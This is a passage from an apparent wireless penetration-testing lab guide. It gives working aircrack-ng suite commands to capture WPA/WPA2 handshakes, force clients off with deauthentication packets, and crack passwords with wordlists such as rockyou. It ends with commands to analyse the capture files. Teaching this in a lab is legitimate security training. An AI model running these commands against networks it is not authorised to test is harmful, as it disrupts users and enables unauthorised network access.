 **Success Indicators**:
- Fake authentication: "Association successful"
- ARP replay: "Sent [number] packets"
- Data collection: "#Data" count increasing
- Key recovery: "KEY FOUND!"

---

## 🔐 Phase 5: WPA/WPA2 Basics

### **Exercise 5.1: Handshake Capture**

**Objective**: Capture WPA/WPA2 handshake for password cracking.

```bash
# Step 1: Monitor target network
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w handshake_capture wlan0mon

# Step 2: Wait for client connection or force reconnection
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 wlan0mon

# Step 3: Verify handshake capture
# Look for "WPA handshake" message in airodump-ng
```

### **Exercise 5.2: Basic Password Cracking**

**Objective**: Crack WPA/WPA2 passwords using dictionary attacks.

```bash
# Create simple wordlist
echo "password123" > simple_wordlist.txt
echo "admin" >> simple_wordlist.txt
echo "12345678" >> simple_wordlist.txt

# Crack with wordlist
aircrack-ng -w simple_wordlist.txt handshake_capture.cap

# Use larger wordlist
aircrack-ng -w /usr/share/wordlists/rockyou.txt handshake_capture.cap
```

---

## 📊 Phase 6: Results Analysis

### **Exercise 6.1: Capture File Analysis**

**Objective**: Analyze captured data and understand wireless traffic patterns.

```bash
# Check capture files
ls -la *.cap

# Analyze captured networks
aircrack-ng discovery_scan.cap

# Extract specific information
strings discovery_scan.cap | grep -i essid

# Count packets by type
tcpdump -r discovery_scan.cap | head -20
```
